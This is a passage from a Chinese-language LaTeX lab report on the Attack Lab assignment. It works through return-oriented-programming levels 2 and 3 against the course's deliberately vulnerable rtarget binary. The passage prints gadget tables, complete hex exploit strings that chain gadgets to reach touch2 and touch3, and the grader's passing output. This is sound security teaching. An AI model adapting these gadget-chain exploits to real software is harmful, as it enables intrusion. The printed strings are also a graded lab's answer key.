在 \verb|start_farm| 和 \verb|mid_farm| 之间按正则表达式``\detokenize{48 89 .{2}}'' + $S$查找(其中``+''表示连接字符串), 发现在函数 \verb|addval_273| 和 \verb|setval_426| 中分别匹配到结果``48 89 c7 c3'' 和 ``48 89 c7 90 c3'', 对应的地址为 \verb|0x4019a2| 和 \verb|0x4019c5|. 对照表 \ref{movq} 知, 对应的汇编码均为``\verb|movq %rax,%rdi|''. 此处, 我们选用 \verb|0x4019a2| 处的gadget.

还需搜寻``\verb|popq %rax|''. 对照表 \ref{popq} 知, 对应的机器码为``58''. 在 \verb|start_farm| 和 \verb|mid_farm| 之间按正则表达式``\detokenize{58}'' + $S$查找, 发现在函数 \verb|addval_219| 和 \verb|getval_280| 中均匹配到结果, 对应的地址分别为 \verb|0x4019ab| 和 \verb|0x4019cc|. 我们选用 \verb|0x4019cc| 处的gadget.

当最后一个gadget返回时, \verb|rsp| 恰处于利用字符串的末8字节, 用 \verb|touch2| 的地址覆盖即可.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.6\textwidth]{regexp.png}
    \caption{在Visual Studio Code中使用正则表达式}
\end{figure}


程序跳转过程大致如图 \ref{phase3fig} 所示.
\begin{figure}[H]
    \centering
    \begin{tikzpicture}{
        \matrix (addr) at (-40pt,0) [
            anchor = north west,
            nodes = {note right}
        ]{
            \node {\verb|0x0|}; \\
            \node {\verb|0x0|}; \\
            \node {\verb|0x0|}; \\
            \node {\verb|0x0|}; \\
            \node {\verb|0x0|}; \\ 
            \node {\verb|0x4019cc|}; \\ 
            \node {\verb|0x0x59b997fa|}; \\ 
            \node {\verb|0x4019a2|}; \\ 
            \node {\verb|0x4017ec|}; \\ 
        }; 
        \matrix (stack) [
            anchor = north,
            row sep = -0.8pt,
            nodes = {qword, minimum width=100pt},
            left delimiter = \{
        ]{
            \node (a) {}; \\
            \node (b) {}; \\
            \node (c) {}; \\
            \node (d) {}; \\
            \node (e) {}; \\ 
        }; 
        \node (f) at (0,-100.4pt) [
            qword,
            minimum width=100pt
        ]{};
        \matrix (stack) at (0,-120pt) [
            anchor = north,
            row sep = -0.8pt,
            nodes = {qword, minimum width=100pt},
            left delimiter = \{
        ]{
            \node (g) {}; \\
            \node (h) {}; \\
            \node (i) {}; \\
        }; 
        \matrix (gadget1) at (200pt,-30pt) [
            anchor = north,
            row sep = -0.8pt,
            nodes = {qword, minimum width=100pt},
            right delimiter = \}
        ]{
            \node (g1) {\verb|popq %rax|}; \\
            \node (g2) {\verb|retq|}; \\ 
        }; 
        \matrix (gadget2) at (200pt,-90pt) [
            anchor = north,
            row sep = -0.8pt,
            nodes = {qword, minimum width=100pt},
            right delimiter = \}
        ]{
            \node (g3) {\verb|movq %rax,%rdi|}; \\
            \node (g4) {\verb|retq|}; \\ 
        }; 
        \node at (-60pt,-40pt) [note left]{\verb|getbuf| 的栈缓冲区};
        \node at (-55pt,-100pt) [note left]{\verb|getbuf| 的返回地址};
        \node at (-60pt,-140pt) [note left]{\verb|test| 的栈帧};
        \node at (260pt,-40pt) [note right]{Gadget 1};
        \node at (260pt,-100pt) [note right]{Gadget 2};
        \node at (90pt,0) [note right]{\verb|getbuf|};
        \draw[trace,out=-80,in=180] (110pt,-15pt) to (150pt,-35pt);
        \draw[trace,out=190,in=-190,distance=15pt] (150pt,-40pt) to (150pt,-55pt);
        \draw[trace,out=190,in=-190,distance=30pt] (150pt,-60pt) to (150pt,-100pt);
        \draw[trace,out=190,in=-190,distance=15pt] (150pt,-105pt) to (150pt,-120pt);
        \draw[trace,out=-180,in=80] (150pt,-125pt) to (110pt,-145pt);
        \node at (90pt,-140pt) [note right]{\verb|touch2|};
    }
    \end{tikzpicture}
    \caption{\texttt{phase2}的程序跳转过程}\label{phase3fig}
\end{figure}

综上所述, 得16进制的利用字符串
\begin{code}{text}
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00 /* gadget1 (popq    %rax) */
fa 97 b9 59 00 00 00 00 /* 0x59b997fa */
a2 19 40 00 00 00 00 00 /* gadget2 (movq    %rax,%rdi) */
ec 17 40 00 00 00 00 00 /* touch2 */
\end{code}
存于 \nameref{phase4ans} 中.

成功通过本关卡, 输出如下
\begin{code}{text}
$ cat phase4.txt | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
\end{code}

\subsection{ROP: Level 3}

攻击目标同样是 \verb|rtarget|, 使用ROP方法, 但要求调用 \verb|touch3|, 传入字符串``59b997fa''作为参数. 栈中的``59b997fa''有可能被 \verb|touch3| 分配的缓冲区重写, 应当置于 \verb|touch3| 地址之后. 目标是通过一系列 gadget 将首字符地址存入 \verb|%rdi|.

根据实验材料的提示, 本关卡的官方解法共需要8个gadget, 分布在整个garget farm中. 涉及到 \verb|movl| 指令, 编码格式如表 \ref{movl} 所示.
\begin{table}[H]
    \centering
    \small
    \begin{tabular}{*9c}
        \toprule
        \multirow{2}[2]{*}{Source $S$} & \multicolumn{8}{c}{Destination $D$} \\
        \cmidrule(lr){2-9}
        & \verb|%eax| & \verb|%ecx| & \verb|%edx| & \verb|%ebx| & \verb|%esp| & \verb|%ebp| & \verb|%esi| & \verb|%edi| \\
        \midrule
        \verb|%eax| & 89 c0 & 89 c1 & 89 c2 & 89 c3 & 89 c4 & 89 c5 & 89 c6 & 89 c7 \\
        \verb|%ecx| & 89 c8 & 89 c9 & 89 ca & 89 cb & 89 cc & 89 cd & 89 ce & 89 cf \\
        \verb|%edx| & 89 d0 & 89 d1 & 89 d2 & 89 d3 & 89 d4 & 89 d5 & 89 d6 & 89 d7 \\
        \verb|%ebx| & 89 d8 & 89 d9 & 89 da & 89 db & 89 dc & 89 dd & 89 de & 89 df \\
        \verb|%esp| & 89 e0 & 89 e1 & 89 e2 & 89 e3 & 89 e4 & 89 e5 & 89 e6 & 89 e7 \\
        \verb|%ebp| & 89 e8 & 89 e9 & 89 ea & 89 eb & 89 ec & 89 ed & 89 ee & 89 ef \\
        \verb|%esi| & 89 f0 & 89 f1 & 89 f2 & 89 f3 & 89 f4 & 89 f5 & 89 f6 & 89 f7 \\
        \verb|%edi| & 89 f8 & 89 f9 & 89 fa & 89 fb & 89 fc & 89 fd & 89 fe & 89 ff \\
        \bottomrule
    \end{tabular}
    \caption{``\texttt{movl} $S$,$D$'' 的编码}\label{movl}
\end{table}

下面, 使用正则表达式查找可用的gadget.
\begin{itemize}[noitemsep]
    \item 表达式为``\detokenize{48 89 .{2}}'' + $S$, 查找到4条可用的 \verb|movq| 指令, 列表如下
    \begin{table}[H]
        \centering
        \small
        \begin{tabular}{ccc}
            \toprule
            Function & Address  & Instruction \\
            \midrule
            \verb|addval_273| & \verb|0x4019a2| & \multirow{2}{*}{ \texttt{movq \%rax,\%rdi}} \\
            \verb|setval_426| & \verb|0x4019c5| & \\
            \midrule
            \verb|addval_190| & \verb|0x401a06| & \multirow{2}{*}{ \texttt{movq \%rsp,\%rax}}\\
            \verb|setval_350| & \verb|0x401aad| & \\
            \bottomrule
        \end{tabular}
        \caption{Garget farm中可用的 \texttt{movq} 指令}\label{mymovq}
    \end{table}
    \item 表达式为``\detokenize{89 .{2}}'' + $S$, 查找到12条可用的 \verb|movl| 指令, 列表如下
    \begin{table}[H]
        \centering
        \small
        \begin{tabular}{ccc}
            \toprule
            Function & Address  & Instruction \\
            \midrule
            \verb|addval_273| & \verb|0x4019a3| & \multirow{2}{*}{ \texttt{movl \%eax,\%edi}} \\
            \verb|setval_426| & \verb|0x4019c6| & \\
            \midrule
            \verb|getval_481| & \verb|0x4019dd| & \multirow{2}{*}{ \texttt{movl \%eax,\%edx}} \\
            \verb|addval_487| & \verb|0x401a42| & \\
            \midrule
            \verb|addval_190| & \verb|0x401a07| & \multirow{4}{*}{ \texttt{movl \%esp,\%eax}} \\
            \verb|addval_110| & \verb|0x401a3c| & \\
            \verb|addval_358| & \verb|0x401a86| & \\
            \verb|setval_350| & \verb|0x401aae| & \\
            \midrule
            \verb|addval_436| & \verb|0x401a13| & \multirow{2}{*}{ \texttt{movl \%ecx,\%esi}} \\
            \verb|addval_187| & \verb|0x401a27| & \\
            \midrule
            \verb|getval_159| & \verb|0x401a34| & \multirow{2}{*}{ \texttt{movl \%edx,\%ecx}} \\
            \verb|getval_311| & \verb|0x401a69| & \\
            \bottomrule
        \end{tabular}
        \caption{Garget farm中可用的 \texttt{movl} 指令}\label{mymovl}
    \end{table}
    \item 表达式为``\detokenize{5[89a-f]}'' + $S$, 查找到2条可用的 \verb|popq| 指令, 已在第4关中给出.
\end{itemize}

由于栈随机化, 无法获取参数字符串的绝对地址, 自然想到通过 \verb|rsp| 寻址. 然而在跳转至 \verb|touch3| 前, \verb|rsp| 无法直接指向参数字符串, 必须设法间接寻址. 

仅通过 \verb|movq|, \verb|movl|, \verb|popq| 指令无法间接寻址. 注意到 \nameref{farm} 中有如下函数
\begin{code}{text}
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37                   leaq    (%rdi,%rsi), %rax
  4019da: c3                            retq
\end{code}
该函数将 \verb|rdi| 和 \verb|rsi| 相加, 结果存入 \verb|rax|, 为相对寻址提供了途径. 大致过程如下:
\begin{enumerate}[noitemsep]
    \item 通过若干gadget, 将 \verb|rsp| 移动至 \verb|rdi|.
    \item 通过若干gadget, 将参数字符串地址的相对偏移量从栈中弹出, 移动至 \verb|esi|.
    \item 调用 \verb|add_xy|, 计算得参数字符串的地址, 返回至 \verb|rax|.
    \item 通过若干gadget, 将 \verb|rax| 移动至 \verb|rdi|.
    \item 调用 \verb|touch3|.
\end{enumerate}

之所以将偏移量移入 \verb|esi| 而非 \verb|edi|, 是由于将 \verb|rsp| 移动至 \verb|rsi| 必须经由 \verb|movl| 指令, 使得目标寄存器的高位4个字节置0. 对照表 \ref{mymovq} 和表 \ref{mymovl}, 得到一种解决方案的汇编表示
\begin{code}{text}
movq    %rsp,%rax               \* Step 1 *\
movq    %rax,%rdi
popq    %rax                    \* Step 2 *\
movl    %eax,%edx
movl    %edx,%ecx
movl    %ecx,%esi
callq   add_xy                  \* Step 3 *\
movq    %rax,%rdi               \* Step 4 *\
callq   touch3                  \* Step 5 *\
\end{code}

对于移动指令, 统一取表中第1个gadget; 对于 \verb|popq| 指令, 统一取 \verb|0x4019cc| 处的gadget. 计算得偏移量为 \verb|0x48|. 于是, 得到一种可行的利用字符串
\begin{code}{text}
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    06 1a 40 00 00 00 00 00 /* gadget1: movq    %rsp,%rax */
    a2 19 40 00 00 00 00 00 /* gadget2: movq    %rax,%rdi */
    cc 19 40 00 00 00 00 00 /* gadget3: popq    %rax */
    48 00 00 00 00 00 00 00 /* 0x48 */
    dd 19 40 00 00 00 00 00 /* gadget4: movl    %eax,%edx */
    34 1a 40 00 00 00 00 00 /* gadget5: movl    %edx,%ecx */
    13 1a 40 00 00 00 00 00 /* gadget6: movl    %ecx,%esi */
    d6 19 40 00 00 00 00 00 /* gadget7: add_xy */
    a2 19 40 00 00 00 00 00 /* gadget8: movq    %rax,%rdi */
    fa 18 40 00 00 00 00 00 /* touch3 */
    35 39 62 39 39 37 66 61 /* "59b997fa" */
\end{code}
存于 \nameref{phase5ans} 中.

成功通过本关卡, 输出如下
\begin{code}{text}
    $ cat phase5.txt | ./hex2raw | ./rtarget -q
    Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 
\end{code}

\clearpage
\section{总结}

完成Attack Lab, 主要有以下收获:

\begin{itemize}
    \item 掌握了缓冲区溢出的原理, 能够利用CI和ROP安全漏洞对程序发起攻击.
    \item 了解到在编程时增强程序健壮性的一些手段, 例如将指针随机化.
    \item 理解了编译器和操作系统对栈缓冲区溢出提供保护的方式, 例如栈随机化和标记不可执行段.
    \item 深化了对调用栈与传参机制的理解, 记忆了部分x86-64指令的编码方式.
    \item 熟练使用 \verb|gdb|, \verb|objdump| 等调试工具.
    \item 熟练使用 \LaTeX 中的 \verb|tikz| 宏包.
    \item 熟悉了正则表达式的语法, 转义字符, 通配符等.
\end{itemize}

本实验的所有材料已上传至GitHub:

\url{https://github.com/HasiNed/Computer-System}

\setupappendix

\clearpage
\section{部分输出结果}

\subsection{\texttt{farm.txt}}\label{farm}
\includecode{text}{farm.txt}

\clearpage
\section{代码清单}\label{codelist}

\subsection{\texttt{phase1.txt}}\label{phase1ans}
\includecode{text}{../target1/phase1.txt}

\subsection{\texttt{phase2.s}}\label{phase2asm}
\includecode{text}{../target1/phase2.s}

\subsection{\texttt{phase2.txt}}\label{phase2ans}
\includecode{text}{../target1/phase2.txt}

\subsection{\texttt{phase3.txt}}\label{phase3ans}
\includecode{text}{../target1/phase3.txt}

\clearpage
\subsection{\texttt{phase4.txt}}\label{phase4ans}
\includecode{text}{../target1/phase4.txt}

\subsection{\texttt{phase5.txt}}\label{phase5ans}
\includecode{text}{../target1/phase5.txt}